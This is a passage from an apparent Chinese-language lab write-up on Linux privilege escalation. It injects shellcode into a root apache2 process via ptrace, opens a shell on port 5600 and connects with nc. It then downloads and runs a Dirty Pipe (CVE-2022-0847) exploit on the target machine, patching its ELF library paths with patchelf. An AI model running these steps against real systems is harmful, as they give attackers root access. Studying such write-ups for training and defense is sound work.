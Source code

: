 ```python

print("Shellcode Injected!!")

registers.rip=registers.rip+2

libc.ptrace(PTRACE_SETREGS, pid, None, ctypes.byref(registers))

print("Final Instruction Pointer: " + hex(registers.rip))

libc.ptrace(PTRACE_DETACH, pid, None, None)
```
还需要将 `libc.so.6` 复制到目标机器，或者找到相关目录，或者直接修改代码中lib的路径
```Shell
find / -name libc.so.6 2>/dev/null
```
找一个可利用的root用户的进程
```Shell
ps -U root
# 743 ?        00:00:00 apache2
```
执行利用代码
```Shell
/usr/bin/python2.7 inject.py 743
```
默认使用5600端口，查看是否注入成功
```Shell
netstat -tunlpa | grep 5600
ss -pantu | grep 5600
```
连接即可
```Shell
nc 192.168.1.35 5600
```
成功获取到权限

再试试别的方式提权
[[20 CVE#CVE-2022-0847|CVE-2022-0847]]
目标机器上没有安装 `gcc` ，需要现在自己的机器上编译可执行文件
```Shell
gcc exploit.c -o exploit
python3 -m http.server 7331
```
靶机上下载执行
```Shell
wget http://192.168.1.26:7331/exploit
chmod +x exploit
./exploit
# ./exploit: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.33' not found (required by ./exploit)
```
提示库文件版本不一致无法执行
查看一下可执行文件的信息
```Shell
ldd exploit
# linux-vdso.so.1 (0x00007ffe61bf3000)
# libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fcf3a7b1000)
# /lib64/ld-linux-x86-64.so.2 (0x00007fcf3a9ac000)
```
先在主机上手动给ELF文件打补丁，指定库文件位置
```Shell
cp /lib/x86_64-linux-gnu/libc.so.6 /tmp/
cp /lib64/ld-linux-x86-64.so.2 /tmp/
patchelf --replace-needed libc.so.6 /tmp/libc.so.6 ./exploit
patchelf --set-interpreter /tmp/ld-linux-x86-64.so.2 ./exploit
```
再将库文件一并传到靶机上
```Shell
```